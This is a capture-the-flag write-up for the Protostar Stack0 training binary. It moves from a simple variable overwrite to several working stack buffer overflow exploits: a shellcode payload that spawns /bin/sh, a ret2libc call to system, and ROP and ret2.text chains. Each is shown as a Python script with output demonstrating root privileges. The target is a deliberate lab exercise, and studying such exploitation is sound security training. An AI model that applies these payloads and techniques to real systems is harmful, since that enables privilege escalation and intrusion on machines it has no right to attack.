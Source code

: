 # Stack0

## Solution
Disassemble main in `radare2` so we can see the locations (relative to %esp) of the `s` and
`var_8h` variables. 
```
[0x08048340]> pdf @main
            ; DATA XREF from entry0 @ 0x8048357
┌ 65: int main (int argc, char **argv, char **envp);
│           ; var char *s @ esp+0x1c
│           ; var int32_t var_8h @ esp+0x5c

...
```

We can then calculate the distance from the variable `s` to the variable `var_8h` to find the
length of the buffer.
```
>>> 0x5c - 0x1c
64
```

To solve the challenge, we just need to change the `var_8h` variable to anything other than 0. Here
we'll change it to `42424242`.
```
user@protostar:/opt/protostar/bin$ python -c 'print "A"*64+"BBBB"' | ./stack0
you have changed the 'modified' variable
```

## Shells

### Classic
First we need to find the offset from the start of the buffer to the %eip register, so we can
redirect process execution. We can do this by giving it a known pattern of bytes, in this case
`BBBBCCCCDDDD`, and so on.
```
(gdb) r
Starting program: /opt/protostar/bin/stack0 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFF
you have changed the 'modified' variable

Program received signal SIGSEGV, Segmentation fault.
0x46464646 in ?? ()
```

Since %eip was overwritten with `46464646` the offset is easily calculated as 80 bytes.

```py
import struct

off = 80

pad = 'A' * off

buf = ''
buf += '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9'
buf += '\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89'
buf += '\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'

nop = '\x90' * 0x80

ret = struct.pack('I', 0xbffff740 + off + 0x80)

print pad + ret + nop + buf 
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ python /tmp/pwn.py | ./stack0
you have changed the 'modified' variable
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

### Ret2libc
First we need to find the address of `system` within memory. We can do this within gdb.
```
(gdb) b main
Breakpoint 1 at 0x80483fd: file stack0/stack0.c, line 10.
(gdb) r
Starting program: /opt/protostar/bin/stack0 

Breakpoint 1, main (argc=1, argv=0xbffff854) at stack0/stack0.c:10
10	stack0/stack0.c: No such file or directory.
	in stack0/stack0.c
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
```

We also need to find the address of libc itself, we can also do this within gdb.
```
(gdb) info proc map
process 2051
cmdline = '/opt/protostar/bin/stack0'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack0'
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack0
	 0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack0
	0xb7e96000 0xb7e97000     0x1000          0        
	0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
	0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
	0xb7fd9000 0xb7fdc000     0x3000          0        
	0xb7fde000 0xb7fe2000     0x4000          0        
	0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
	0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
	0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
	0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
	0xbffeb000 0xc0000000    0x15000          0           [stack]
```

We then need to find the offset of "/bin/sh" within libc. We can do this using a combination of
`strings` and `grep`.
```
user@protostar:/opt/protostar/bin$ strings /lib/libc.so.6 -t x | grep '/bin/sh'
 11f3bf /bin/sh
```

```py
import struct

off = 80

pad = 'A' * off

system = struct.pack('I', 0xb7ecffb0)
bin_sh = struct.pack('I', 0xb7e97000 + 0x11f3bf)

print pad + system + 'AAAA' + bin_sh
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ (python /tmp/pwn.py; cat) | ./stack0
you have changed the 'modified' variable
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

### Rop Chain to Shellcode
Here we just redirect process execution to a `ret` instruction, which then takes the next 4 bytes
on the stack and calls the shellcode there.

```py
import struct

off = 80

pad = 'A' * off

buf = ''
buf += '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9'
buf += '\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89'
buf += '\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'

nop = '\x90' * 0x80

ret = struct.pack('I', 0x08048434)
ret += struct.pack('I', 0xbffff7b4 + 0x80)

print pad + ret + nop + buf
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ python /tmp/pwn.py | ./stack0
you have changed the 'modified' variable
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

### Rop Chain to Libc
...

### Ret2.text to Shellcode
First we need to find a POP, POP, RET gadget in the target binary. We can do this with
`msfelfscan`.
```
➜  stack git:(master) ✗ msfelfscan -s -f stack0
0x080484a7   edi ebp ret
0x080483c2   ebx ebp ret
0x080484d7   ebx ebp ret
```

```py
import struct

off = 80

pad = 'A' * off

buf = ''
buf += '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9'
buf += '\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89'
buf += '\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'

nop = '\x90' * 0x80

ret = struct.pack('I', 0x080484a7)

ret += 'AAAA'                                    # POP
ret += 'AAAA'                                    # POP
ret += struct.pack('I', 0xbffff740 + off + 0x80) # RET

print pad + ret + nop + buf
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ python /tmp/pwn.py | ./stack0
you have changed the 'modified' variable
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

### Ret2.text to Libc
...
